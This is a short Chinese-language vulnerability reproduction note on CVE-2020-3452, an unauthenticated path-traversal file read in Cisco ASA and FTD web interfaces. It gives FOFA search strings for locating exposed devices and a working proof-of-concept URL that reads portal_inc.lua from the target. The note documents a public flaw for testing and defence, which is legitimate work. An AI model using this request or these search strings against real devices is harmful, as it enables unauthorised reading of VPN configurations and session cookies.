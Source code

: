 # Cisco ASA设备 任意文件读取漏洞 CVE-2020-3452

## 漏洞描述

Cisco Adaptive Security Appliance (ASA) 防火墙设备以及Cisco Firepower Threat Defense (FTD)设备的WEB管理界面存在未授权的目录穿越漏洞和远程任意文件读取漏洞，允许未经身份验证的远程攻击者进行目录遍历攻击并读取目标系统上的敏感文件，此漏洞不能用于获取对ASA或FTD系统文件或底层操作系统(OS)文件的访问，所以只能读取web系统目录的文件，比如webvpn的配置文件、书签、网络cookies、部分网络内容和超文本传输协议网址等信息。

## 影响版本

<a-checkbox checked>Cisco ASA设备</a-checkbox></br>



![img](../../../.vuepress/public/img/cisco-1-20220314135401585.png)



<a-checkbox checked>Cisco FTD设备</a-checkbox></br>



![img](../../../.vuepress/public/img/cisco-2-20220314135403447.png)



## FOFA

<a-checkbox checked>/+CSCOE+/</a-checkbox></br>

<a-checkbox checked>Cisco-ASA</a-checkbox></br>



## 漏洞复现

验证POC

```plain
https://xxx.xxx.xxx.xxx/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

会下载得到一个文件



![img](../../../.vuepress/public/img/cisco-4.png)



## 